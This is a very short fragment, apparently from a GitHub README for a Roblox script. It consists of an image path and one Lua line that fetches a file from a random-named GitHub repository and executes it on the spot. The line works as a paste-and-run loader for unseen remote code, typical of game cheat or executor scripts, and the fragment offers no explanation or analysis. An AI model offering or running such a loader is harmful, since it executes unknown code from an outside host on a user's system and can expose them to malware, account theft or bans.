 # loadstring(game:HttpGet("https://raw.githubusercontent.com/bobby-project-shield/ejlkgirukefmghfk/refs/heads/main/bvxfmbnbj%2Cfm.txt"))()
